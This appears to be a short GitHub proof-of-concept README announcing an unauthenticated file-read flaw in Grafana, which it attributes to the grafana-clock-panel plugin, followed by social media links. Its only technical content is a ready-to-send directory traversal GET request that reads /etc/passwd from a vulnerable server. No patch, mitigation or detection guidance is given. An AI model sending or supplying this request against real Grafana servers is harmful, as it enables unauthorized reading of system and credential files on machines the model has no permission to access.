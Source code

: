 # grafana-unauth-file-read

Unauthorized reading of files in Grafana (0day)

It looks like the new 0day LFI in Grafana exists thanks to the grafana-clock-panel plugin. It is enough to send a GET request of the form:

```GET /public/plugins/grafana-clock-panel/../../../../../../../etc/passwd```

### Proof
![PoC](https://raw.githubusercontent.com/Vulnmachines/grafana-unauth-file-read/main/Grafana.PNG)

### Follow us
### [Youtube](https://www.youtube.com/c/rapidsafeguard)
### [Twitter](https://www.twiiter.com/rapidsafeguard)
### [Telegram](https://t.me/rapidsafeguard)
### [Vulnmachines.com](https://www.vulnmachines.com)
### [LinkedIn](https://www.linkedin.com/in/punit-darji-5500/)
### [Business query](https://www.rapidsafeguard.com)
